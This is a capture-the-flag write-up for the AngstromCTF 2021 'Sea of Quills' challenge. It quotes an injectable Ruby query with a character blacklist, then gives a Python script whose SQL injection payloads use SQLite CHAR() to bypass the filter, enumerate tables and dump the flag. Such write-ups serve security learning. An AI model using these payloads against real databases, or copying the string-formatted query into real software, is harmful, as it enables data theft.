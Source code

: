 # AngstromCTF2021 Sea of Quills
Lokking at the sourcecode we notice the lines:
```
blacklist = ["-", "/", ";", "'", "\""]

blacklist.each { |word|
  if cols.include? word
    return "beep boop sqli detected!"
  end
}


if !/^[0-9]+$/.match?(lim) || !/^[0-9]+$/.match?(off)
  return "bad, no quills for you!"
end

@row = db.execute("select %s from quills limit %s offset %s" % [cols, lim, off])
```

We immediately see that the parameter `cols` is injectable. We do however need to take care that our query dosen't use any of the blacklisted characters. Fortunatly the SQLite dbms has a function called `CHAR` that takes integers as arguments and convert them to their ascii representation.

We can now code up our payload:
```
import requests

url = "https://seaofquills.2021.chall.actf.co/quills"

# Find table names
# We can use the CHAR method to insert strings and circumvent the filter
# CHAR(0x74,0x61,0x62,0x6c,0x65) outputs 'table'
payload = {
    "limit":"5",
    "offset":"1",
    "cols":"name,name,name FROM sqlite_master WHERE type=CHAR(0x74,0x61,0x62,0x6c,0x65) UNION select desc,url,name"
    }

r = requests.post(url,params=payload)
print(r.text)
# This returns the tablename `flagtable`

# Use tablename to extract flag
payload = {
    "limit":"5",
    "offset":"1",
    "cols":"* FROM flagtable UNION select desc"
}

r = requests.post(url,params=payload)
print(r.text)
```
Running the solytion we find the flag: actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}
